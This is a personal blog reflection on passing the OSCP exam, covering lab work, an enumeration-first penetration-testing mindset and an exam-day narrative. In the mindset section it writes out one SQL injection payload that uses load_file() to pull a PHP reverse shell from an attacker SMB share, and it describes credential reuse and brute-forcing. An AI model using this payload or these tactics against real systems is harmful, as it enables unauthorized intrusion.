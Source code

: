 ```yaml
---
cover: https://i.ibb.co/m4VrZK6/OSCP.png
title: OSCP and Penetration Testing mindset
date: 12/14/2022 09:45:47 +07:00
categories: certification-review
tags: [OSCP, PEN-200, Offsec]
---
```


# OSCP and Penetration Testing mindset

![](https://api.accredible.com/v1/frontend/credential_website_embed_image/certificate/56608366)

## Overview
While I passed my OSCP back in August, 2022. In this blog post I specifically wanted to reflect on the mindset and strategy which offsec helped to develop for conducting a successful penetration test against an organization. This article will not be specifically about the course, lab or the exams as there are alot of other articles on the internet regarding those but rather a unique psychological aspect behind an adversial thinking and how OSCP helped in developing that mindset. 

## Background
Before getting the `OSCP` I was already into information security from approximately 2.5 years. I was active on Hackthebox, tryhackme, vulnhub doing `boot2root`, actively doing ctf challanges with my friends every other week, doing bug bounty, researching various topics, In general I enjoyed this thing. I was also a member of Synack Red Team from january, 2021. During our monthly meetup of `Pentester Nepal` we had our senior Nirmal Thapa who also goes by the handle `mpz` who was `OSCP` certified from whom I got to know that `OSCP` was the most sought after industry leading penetration testing certification at the time. I was basically hooked when I returned home I started googling everything I could, watched every youtube video, researched everything regarding `OSCP` from blog posts to reddit threads. I knew I had to get the `OSCP` certification. But the problem was with the cost which was `$1299` for Course Materials + 60 days of Lab Access + An exam attempt. I started actively doing bug bounty on Synack and a week later my `Path Traversal` bug got accepted which covered not only my `OSCP` cost but also for purchasing hackthebox VIP access and pg play subscription. On March of 2022 I registered for `PWK` course with 60 days of lab access.        
![](https://i.ibb.co/ZdqNXWJ/Screenshot-2024-06-15-111207.png)

## The Labs
I did 60-70 machines on `Hackthebox`,machines from `TJ Null's` oscp prep list, 25+ machines on `proving grounds` and so many machines from `vulnhub` and `tryhackme` that I can't even remember of but compared to those the OSCP labs were very unique. It had total `75` machines which included two `Active Directory` sets and rest standalone windows, linux machines representing a typical internal network of an organization.These hosts consisted of old systems vulnerable to kernel exploits to latest operating systems with fully updated applications. After compromising most of the hosts in one network we had to identify one or two of the host which were connected to another network and use this as a pivoting machine to scan and gain access to machines in another network. It also taught to leverage credentials or information gathered from one machine to compromise another. Even the `NetBIOS` names for each host in the network also made sense like, "okay this is John's workstation, this might be a switch or default gateway, this and previous host might be using same configuration" and so on. The labs were not difficult at all instead it was very fun. I planned to compromise two machine a day this way in about 40 days I would be able to comrpomise all the hosts.

## The Mindset
Talking about how `Offsec` helps in developing an adversial mindset, I felt the labs to be pretty real life compared to `hackthebox`, `tryhackme` and other `boot2root` machines. My thought process and methodology was slightly different while doing `PWK Labs` compared to other boot2root machines from various platforms. Remember `Always go for breadth before depth`, this means not to focus on particular vulnerability or access point but to enumerate everything which includes every `tcp` and `udp` port, every `services` and their specific misconfigurations, gather every information including the `NetBIOS` name of the host, check every entry points, note every detail if the host is running any kind of web application, is it a cms? what is the version? Is it a custom built site? Maybe there is an administrator portal? Maybe `virtual hosts` exists? Try fuzzing not only directories but also common files such as `robots.txt`, `.git`, `.SVN`, `config.php`, `.htaccess`, etc. Found some potential `usernames`? Some `comments` posted by a user or an administrator? Got access to an `email`? Now its time to piece the information together. Figure out why were those things configured in the first place and the purpose behind the information. Basically we need to ask question to ourselves why was it configured? what is the purpose of this? Am I missing in enumerating any information? After enumerating as much as possible we need to use the information to our advantage by piecing the puzzle together and trying different things, for example an `FTP Service` is configured with webroot directory and there is also a web application? Maybe if I am able to upload `reverse shell` to the `webroot` by gaining access to this ftp service I would be able to access and trigger the shell from the `website`? Oh! I donot have credentials to this `FTP Service` but there is an LFI Vulnerability in the `web application` maybe I can access the configuration file for this `FTP Service` using `LFI`? A user is running a powershell script where we found plaintext credentials? What are the chances that this credential is also used for other services? `RDP`, `winrm`, `smb`, `ssh`? Maybe the user is also an administrator on other host in same/different nework and same credential re-used? Found sql injection in web application with mysql database but dumping the database did not result in juicy information? What are the chances mysql `load_file()` method can be utilized to read sensative system files? If the host is windows and we have write access to an smb share maybe we can upload a php reverse shell on that share and trigger it using sql injection and `load_file()` method by doing `'+UNION+SELECT+NULL,NULL,NULL,NULL,load_file('\\\\10.10.10.9\\share\\reverse-shell.php'),NULL--` to get an RCE? We need to be curious and try dfferent things to fit the puzzle together. Remember `broad and thorough enumeration` and use the information to your advantage. Nothing worked? Maybe we can just bruteforce our way in. Also do not worry about tools or commands as those can be found literally everywhere from `hacktricks`, `github`, `blog posts`, `Forums`, `throughout the internet`. It is just a google search away. The goal is to understand what you are doing, what the tool or specific command is doing and what is the objective.

## The Exam
I booked my exam for `August 6th, Saturday 6:00 AM` nepali time. Within `10 AM` I had successfully compromised the `AD Chain` with 40 pts on my pocket. I took break until `12 PM` and started with the `Linux` host where I was not able to find an initial foothold noo matter how much I enumerated or what I tried including `bruteforcing` my way in. It was already `2-3 hours`. I moved to another machine which was a standalone windows host, In about an hour I successfully got initial access into the machine and got my `local.txt` and it was already `5 PM`. In about 11 hours I had accumulated 50 points. I took break for an hour and went for privilege escalation which seemed impossible but remember as I said to piece the information together which is exactly what I did and was successful in gaining `nt authority\system` access. Now I had 60 points under my belt. I started with second machine which was relatively straightforward both initial compromise and privilege escalation with which I had the passing score. I felt so much relief. It was already `12 AM` so I decided to sleep, I set my alarm for `4 AM` next morning to give the previous `Linux Host` one final try, I thought I found the exploit but was not sure if it would work since I had one `metasploit usage` still left just firing the exploit gained me initial access into the machine and I was like what just happened here? Neverthess I continued with privilege escalation with only an hour remaning before my exam ended and  successfully got root access into the machine. I was feeling like I was on top of the world at that moment. I quickly re assured I had all the necessary screenshots taken and told the proctor to end my exam. After creating a thorough report and submitting it on `August 13, 2022 evening Nepali time` I received email from offensive security that I had passed. This was a very proud moment for me as I was finally an OSCP holder although continuous learning and advancing my tradecraft in this field never stops.


## Tips
- Be curious
- Try different things if one does not work
- Focus on breadth before depth
- Enumerate as much as you can and fit the puzzle pieces together by utilizing those information
- Be patient do not rush or you will miss information which is right in front of you
- Take Breaks

